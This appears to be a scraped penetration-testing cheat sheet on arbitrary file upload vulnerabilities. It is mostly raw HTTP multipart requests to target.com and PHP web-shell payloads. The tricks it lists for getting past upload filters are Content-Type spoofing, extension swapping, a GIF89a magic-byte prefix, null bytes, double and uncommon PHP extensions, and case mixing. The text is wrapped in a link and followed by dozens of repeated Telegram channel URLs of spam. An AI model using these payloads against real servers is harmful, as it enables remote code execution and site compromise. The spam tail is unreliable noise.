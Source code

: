 [# Arbitrary File Upload

## Introduction
An arbitrary file upload vulnerability is a type of security flaw that allows an attacker to upload malicious files onto a server.

## Where to find
In upload file feature, for example upload photo profile feature

## How to exploit
1. Change the `Content-Type` value
```
POST /images/upload/ HTTP/1.1
Host: target.com
...

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php
```
Change the Content-Type
```
POST /images/upload/ HTTP/1.1
Host: target.com
...

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: image/jpeg
```

2. Try to change the extension when send the request, for example in here you cant upload file with ext php but you can upload jpg file
```
POST /images/upload/ HTTP/1.1
Host: target.com
...

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php.jpg"
Content-Type: application/x-php
```
Change the request to this
```
POST /images/upload/ HTTP/1.1
Host: target.com
...

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php
```

3. Upload the payload, but start with GIF89a; and
```
POST /images/upload/ HTTP/1.1
Host: target.com
...

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: image/gif

GIF89a; <?php system("id") ?>
```
And dont forget to change the content-type to image/gif

4. Bypass content length validation, it can be bypassed using small payload
```
(<?=`$_GET[x]`?>)
```

5. Using null byte in filename
```
file.php%00.gif
```

6. Using double extensions for the uploaded file
```
file.jpg.php
```

7.  Uploading an unpopular php extensions (php4,php5,php6,phtml)
```
file.php5
```

8. Try to randomly capitalizes the file extension
```
file.pHP5
```

9. Mix the tips!
](https://t.me/VolVeRFM

https://t.me/VolVeRFM

https://t.me/VolVeRFM
https://t.me/VolVeRFM

https://t.me/VolVeRFM

https://t.me/VolVeRFM
https://t.me/VolVeRFM

https://t.me/VolVeRFM

https://t.me/VolVeRFM
https://t.me/VolVeRFM

https://t.me/VolVeRFM

https://t.me/VolVeRFMhttps://t.me/VolVeRFM

https://t.me/VolVeRFM

https://t.me/VolVeRFMhttps://t.me/VolVeRFM

https://t.me/VolVeRFM

https://t.me/VolVeRFMhttps://t.me/VolVeRFM)https://t.me/VolVeRFM

https://t.me/VolVeRFM

https://t.me/VolVeRFM
https://t.me/VolVeRFM

https://t.me/VolVeRFM

https://t.me/VolVeRFM
https://t.me/VolVeRFM

https://t.me/VolVeRFM

https://t.me/VolVeRFM
https://t.me/VolVeRFM

https://t.me/VolVeRFM

https://t.me/VolVeRFMhttps://t.me/VolVeRFM

https://t.me/VolVeRFM

https://t.me/VolVeRFMhttps://t.me/VolVeRFM

https://t.me/VolVeRFM

https://t.me/VolVeRFMhttps://t.me/VolVeRFM

